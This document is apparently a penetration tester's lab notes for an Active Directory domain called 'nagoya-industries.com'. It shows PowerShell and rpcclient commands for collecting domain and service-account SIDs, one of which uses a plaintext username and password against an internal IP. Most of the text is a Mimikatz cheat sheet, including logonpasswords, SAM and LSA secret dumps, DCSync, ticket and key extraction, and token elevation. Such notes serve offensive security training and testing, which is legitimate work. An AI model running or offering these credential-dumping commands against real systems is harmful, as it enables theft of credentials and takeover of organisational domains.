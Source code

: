 CMDs to run in windows host 
```
Get-ADdomain
```
get the domain sid
`DomainSID: S-1-5-21-1969309164-1513403977-1686805993`
to get serivce user sid using
```
Get-ADUser -Identity svc_mssql -Properties ServicePrincipalNames, ObjectSID
```
![[Pasted image 20250711210415.png]]
another way is using rpc
```
rpcclient -U "nagoya-industries.com\\Christopher.Lewis%P@ssword2022" 192.168.249.21 
```
and then 
```
enumdomusers
```
run this to get the user sid
```
lookupnames svc_mssql
```
`svc_mssql S-1-5-21-1969309164-1513403977-1686805993-1136 (User: 1)`



### MIMIKATZ COMMANDS

```
privilege::debug                     ; Always run first
sekurlsa::logonpasswords            ; Try to get current logged-in creds
lsadump::sam                        ; Get local user NTLM hashes
lsadump::secrets                    ; Look for service and cached secrets
lsadump::dcsync /domain:x /user:y  ; Dump domain hashes (if possible)
sekurlsa::tickets                   ; Kerberos ticket enumeration
vault::list                         ; Check for vault-stored creds
token::list                         ; List user tokens

```

```
privilege::debug
```
```
token::elevate
```
```
sekurlsa::logonpasswords            
```
```
lsadump::sam                        
```
```
lsadump::secrets                   
```
```
lsadump::dcsync /domain:x /user:y 
```
```
sekurlsa::tickets                  
```
```
vault::list                         
```
```
token::list                         
```
```
sekurlsa::ekeys
```